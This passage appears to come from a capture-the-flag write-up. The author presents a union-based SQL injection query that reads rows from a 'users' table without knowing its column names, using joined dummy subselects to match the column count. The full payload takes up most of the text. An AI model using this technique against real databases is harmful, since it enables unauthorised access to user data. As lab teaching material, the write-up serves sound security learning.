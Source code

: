 ![Me Messing with Stuff](img/obj12-4/img11.png)


Eventually I came up with the following method to find data from a table which I _assumed_ was there, but had no idea how to reference any of the table's columns. There are two lines here because the top one is tab-delimited for viewability, and the bottom query was flattened:

```sql
select * from users 
where id=-1 
    union select * from 
        (select 1)a join
        (select 2)b join
        (select f.3 from
            (select * from
                (select 1)z join
                (select 2)y join
                (select 3)x join
                (select 4)w join
                (select 5)v join
                (select 6)u join
                (select 7)t 
                union select * from users limit 1 offset 2
            )f
        )c;

```
